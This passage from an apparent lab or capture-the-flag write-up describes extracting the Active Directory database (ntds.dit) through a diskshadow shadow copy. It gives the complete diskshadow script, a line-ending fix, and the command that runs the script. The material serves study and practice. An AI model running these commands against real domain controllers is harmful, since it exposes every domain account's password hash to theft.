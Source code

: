 ![](assets/2022-05-09_18-35.png)

I wanted to get an actual privileged shell, so I did more research and came across this [blog](https://pentestlab.blog/tag/diskshadow/) which explains several ways to extract ntds.dit with shadow copy. The diskshadow command is typically used interactively which wouldn't work with my shell, but the command allows for script mode, taking a list of commands that it will execute automatically.

```
set context persistent nowriters
set metadata c:\windows\temp\meta.cab
add volume c: alias six
create
expose %six% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\users\svc_backup\documents\ntds.dit
delete shadows volume %six%
reset
```

> After running the set of scripted commands provided in the blog, I received an error "Could not create .cab metadata file. If the metadata file name was specified using  SET METADATA, the file or directory path name may not be valid." After some research I added the "set metadata" command.

I ran into some issues running the command, the box seemed to be truncating the first line to nowriter which caused it to error out. Because windows uses a carriage return and line feed '\r\n' and linux uses just '\n', I had to convert the line endings to be compatible with windows. 

```
unix2dos shadowscript.txt
```

Afterwards the script ran without issue. I ran the diskshadow command, specifying shadow.txt with the /s parameter which took a snapshot of the filesystem and mounted it to Z:

```
diskshadow /s shadow.txt
```

